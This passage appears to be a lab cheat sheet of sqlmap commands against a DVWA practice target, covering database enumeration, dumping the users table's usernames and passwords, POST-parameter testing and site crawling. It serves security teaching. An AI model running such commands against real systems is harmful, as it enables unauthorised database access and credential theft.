

### Enumerating the DBMS

```bash
$ sqlmap -u "http://victim/vuln/vulnerabilities/sql_bind/?id=1&Submit=Submit" --cookie="[valore_cookie]" --dbs
```

### Dumping Tables, Columns and Data

```bash
$ sqlmap -u "http://victim/vuln/vulnerabilities/sql_bind/?id=1&Submit=Submit" --cookie="[valore_cookie]" -D dvwa --tables
$ sqlmap -u "http://victim/vuln/vulnerabilities/sql_bind/?id=1&Submit=Submit" --cookie="[valore_cookie]" -D dvwa  -T users --columns
$ sqlmap -u "http://victim/vuln/vulnerabilities/sql_bind/?id=1&Submit=Submit" --cookie="[valore_cookie]" -D dvwa  -T users -C user,password --dump
```

### Testing POST parameters

```bash
$ sqlmap -u "http://victim/vuln/vulnerabilities/sql_bind/" --data="id=1&Submit=Submit" --cookie="[valore_cookie]" -D dvwa  -T users --columns
```

### Automatic crawl and SQLi test

```bash
$ sqlmap -u "http://victim/.it" --crawl=1 --batch --threads=5
```